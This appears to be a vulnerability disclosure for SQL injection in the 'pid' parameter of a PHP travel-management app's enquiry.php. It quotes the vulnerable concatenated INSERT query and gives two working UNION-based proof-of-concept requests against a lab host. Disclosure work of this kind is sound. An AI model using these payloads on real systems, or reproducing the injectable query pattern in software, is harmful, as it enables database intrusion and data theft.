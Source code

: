 # Travel Management System has sql injection in enquiry.php



## supplier



https://code-projects.org/travel-management-system-using-php-source-code/



## Vulnerability file



/enquiry.php

## describe



Due to the lack of purification or parameterization of PID parameters, attackers can inject malicious SQL code to manipulate database queries. By utilizing the SQL injection technique of UNION query, attackers can use functions such as UNION to directly query the fields required by the database. This can be used to confirm the existence of vulnerabilities and potentially extract sensitive information from the database.

## **Code analysis**

```
<?php
if(isset($_POST["sbmt"]))
{
	$cn=makeconnection();
	$s="insert into enquiry(Packageid,Name,Gender,Mobileno,Email,NoofDays,Child,Adults,Message,Statusfield) values('" . $_REQUEST["pid"] ."','" . $_POST["t1"] ."','" . $_POST["r1"] ."','" . $_POST["t2"] ."','" . $_POST["t3"] ."','" . $_POST["t4"] ."','" . $_POST["t5"] ."','" . $_POST["t6"] ."','" . $_POST["t7"] ."','Pending')";	
	
	
		mysqli_query($cn,$s);
	
	echo "<script>alert('Record Save');</script>";
}
?>
```

## POC1

```
GET /enquiry.php?pid=pid=-8993'+UNION+ALL+SELECT+NULL,version(),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--+CVWw HTTP/1.1
Host: 192.168.20.133
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Linux; Android 10; K) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Mobile Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
sec-ch-ua-platform: "Android"
sec-ch-ua: "Not/A)Brand";v="8", "Chromium";v="125", "Google Chrome";v="125"
sec-ch-ua-mobile: ?1
Connection: keep-alive
```

![image-20250104133254893](E:\work\me\cve\cve\Travel Management System\image-20250104133254893.png)

## POC2

```
GET /enquiry.php?pid=pid=-8993'+UNION+ALL+SELECT+NULL,user(),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--+CVWw HTTP/1.1
Host: 192.168.20.133
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Linux; Android 10; K) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Mobile Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
sec-ch-ua-platform: "Android"
sec-ch-ua: "Not/A)Brand";v="8", "Chromium";v="125", "Google Chrome";v="125"
sec-ch-ua-mobile: ?1
Connection: keep-alive


```

![image-20250104133602150](E:\work\me\cve\cve\Travel Management System\image-20250104133602150.png)

![image-20250104133733397](E:\work\me\cve\cve\Travel Management System\image-20250104133733397.png)